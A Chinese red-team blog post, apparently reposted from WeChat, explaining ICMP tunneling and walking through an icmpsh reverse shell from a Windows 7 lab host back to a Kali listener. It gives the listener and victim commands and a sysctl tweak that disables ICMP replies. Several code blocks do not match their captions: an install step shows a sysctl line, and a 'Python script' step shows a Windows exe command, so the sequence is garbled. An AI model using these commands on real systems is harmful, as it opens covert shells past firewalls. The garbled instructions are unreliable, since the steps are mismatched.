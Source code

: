 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/Z4WE0i12mondbNrTeTeOsQ)

渗透攻击红队

一个专注于红队攻击的公众号

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDoZibS8XU01CtEtSbwM3VGr3qskOmA1VkccY0mwKTCq6u2ia1xYRwBn3A/640?wx_fmt=jpeg)

  

  

大家好，这里是 **渗透攻击红队** 的第 **十** 篇文章，本公众号会记录一些我学习红队攻击的复现笔记（由浅到深），每周一更。

![](https://mmbiz.qpic.cn/mmbiz_gif/7QRTvkK2qC4T65TNkYZsPg2BJ2VwibZicuBhV9DGqxlsxwG0n2ibhLuBsiamU7S0SqvAp6p33ucxPkuiaDiaKD6ibJGaQ/640?wx_fmt=gif)

ICMP 隧道

‍  

ICMP 隧道是一个比较特殊的协议。在一般的通信协议里，如果两台设备要进行通信，肯定要开放端口，而在 ICMP 协议下就不需要。最常见的 ICMP 消息为 Ping 命令的回复，攻击者可以利用命令得到比回复更多的 ICMP 请求。在通常情况下，每个 Ping 命令都有相对应的回复与请求。

在一些条件下，如果攻击者使用各类隧道技术（HTTP，DNS，常规正反端口转发等）操作都失败了，常常会通过 ping 命令访问远程计算机，尝试进行 ICMP 隧道，将 TCP/UDP 数据封装到 ICMP 的 ping 数据包中，从而穿过防火墙（通常防火墙不会屏蔽 ping 数据包），‍实现不受限制的网络访问。

常见的 ICMP 隧道工具有：icmpsh、PingTunnel、icmptunnel、powershell icmp 等。

**利用 ICMP 协议反弹 Shell**

**icmpsh**

* * *

icmpsh 工具使用简单，是一个跨平台工具，运行不需要管理员权限。

icmpsh 下载地址：

```
apt-get install python-impacket
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LLE46WIoBWf6wspRMpmqPZC7ib5mKREsMzPT124TrUfiaG5kxMOYYyNg3501koVxQDesSf5HAteR6UQ/640?wx_fmt=png)

使用 icmpsh 需要安装 python 的 impacket 类库，以便对于各种协议进行访问。

安装 Python-impacket 库：

```
sudo apt-get update
sudo apt-get upgrade
```

安装库如果出现这种情况：  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LLE46WIoBWf6wspRMpmqPZC25VliaCBVE2qBTORnxYpyhvlfXefL7GZj3Yw7YCj5J3sROSXtfE6UPQ/640?wx_fmt=png)

那么更新一下 APT 库就好了：  

```
1.下载+解压+安装setuptools包：
root@kali:~#:wget https://pypi.python.org/packages/source/s/setuptools/setuptools-18.5.tar.gz
root@kali:~#:tar zxvf setuptools-18.5.tar.gz
root@kali:~#:cd setuptools-18.5
root@kali:~#:python setup.py build
root@kali:~#:python setup.py install

2.下载+解压+安装pip
root@kali:~#:wget https://pypi.python.org/packages/source/p/pip/pip-7.1.2.tar.gz
root@kali:~#:tar zxvf pip-7.1.2.tar.gz
root@kali:~#:cd pip-7.1.2
root@kali:~#:sudo python setup.py install
```

如果没有 pip 的话那么安装 pip：

```
pip2 install impacket
```

如果还是不行那么就使用这条命令安装：

```
sysctl -w net.ipv4.icmp\_echo\_ignore\_all=1
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LLE46WIoBWf6wspRMpmqPZCCzXKoCz1moLBm2wibZSniaIecLiayWFMbM5icQ6K3AUlAibqdtbHzVwS2XA/640?wx_fmt=png)

因为 icmpsh 工具要代替系统本身的 ping 命令的应答程序，所以需要输入如下命令来关闭本地系统的 ICMP 答应（如果要恢复系统答应，则设置为 0），否则 Shell 的运行会不稳定.

```
python icmpsh\_m.py 192.168.217.129【kali】 192.168.217.132【win7】
```

实验完成后开启系统 ping 的话将最后的 1 改为 0 即可

在这里我说一下，运行 run.sh 会出错，不知道为啥：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LLE46WIoBWf6wspRMpmqPZCwSto0bWFbjx5UOSCy6Q89N2vQrUrJBFEQrGS4ic0LHFVnlCNC36TkwQ/640?wx_fmt=png)

于是我使用了 icmpsh 的 Python 脚本运行：

```
icmpsh.exe -t 192.168.217.129
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LLE46WIoBWf6wspRMpmqPZCcxnG2Hg0lBltf9Opvczcp6KLf6E6U3BG4dgApsXgd1pxkiaOicEIAVmA/640?wx_fmt=png)

然后在 Win7 上执行命令：

```
icmpsh.exe -t 192.168.217.129
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LLE46WIoBWf6wspRMpmqPZCLS7aGfWE2ic5QwhNxDRfoVSkF5iaL4qo5ybNEekliaSm8U2UQofSibVNpw/640?wx_fmt=png)

这个时候就成功反弹 shell 到 kali：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LLE46WIoBWf6wspRMpmqPZC7RxNKytDFhBdVZgyd6GcBvRrZnxuG0bbEdguvXnbE3KhiaI6CwBJXgA/640?wx_fmt=png)

* * *

参考文章：

https://pentestlab.blog/2017/07/28/command-and-control-icmp/

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

渗透攻击红队

一个专注于渗透红队攻击的公众号

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDdjBqfzUWVgkVA7dFfxUAATDhZQicc1ibtgzSVq7sln6r9kEtTTicvZmcw/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDY9HXLCT5WoDFzKP1Dw8FZyt3ecOVF0zSDogBTzgN2wicJlRDygN7bfQ/640?wx_fmt=png)

点分享

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDRwPQ2H3KRtgzicHGD2bGf1Dtqr86B5mspl4gARTicQUaVr6N0rY1GgKQ/640?wx_fmt=png)

点点赞

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDgRo5uRP3s5pLrlJym85cYvUZRJDlqbTXHYVGXEZqD67ia9jNmwbNgxg/640?wx_fmt=png)

点在看